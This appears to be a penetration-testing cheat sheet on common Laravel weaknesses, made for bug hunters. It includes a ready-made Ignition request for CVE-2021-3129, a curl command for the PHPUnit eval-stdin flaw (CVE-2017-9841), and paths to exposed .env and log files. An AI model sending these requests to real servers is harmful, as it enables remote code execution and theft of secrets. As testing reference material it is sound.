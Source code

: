 # Laravel Common Bugs

## Introduction
What would you do if you came across a website that uses Laravel?

## How to Detect
Usually in the HTTP response there is a header like this `Set-Cookie: laravel_session=`

1. Find the related CVE by checking laravel version
* How to find the laravel version

By checking the composer file in `https://example.com/composer.json`, sometimes the version is printed there. If you found outdated laravel version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-16542/product_id-38139/Laravel-Laravel.html)

Some example CVE:

- CVE-2021-3129 (Remote Code Execution)
```
POST /_ignition/execute-solution HTTP/1.1
Host: example.com
Accept: application/json
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

2. Laravel 4.8.28 ~ 5.x - PHPUnit Remote Code Execution (CVE-2017-9841)
```
curl -d "<?php echo php_uname(); ?>" http://example.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

3. Exposed environment variables 
* Full Path Exploit : http://example.com/.env

![Environment Variables](https://1.bp.blogspot.com/-EUTxgP5XE6Q/XkgB4SyWSbI/AAAAAAAAAQA/eqtALOjLKKA46si-lIosm6cDVmxByjzIQCLcBGAsYHQ/s1600/1.png)

4. Exposed log files
* Full Path Exploit : http://example.com/storage/logs/laravel.log

5. Laravel Debug Mode Enabled
* Try to request to https://example.com using POST method (Error 405)
* Using [] in paramater (ex:example.com/param[]=0)

![Laravel Debug Mode](https://hacken.io/wp-content/uploads/2019/07/laravel-screen.png)

## References
* [Nakanosec](https://www.nakanosec.com/2020/02/common-bug-pada-laravel.html)
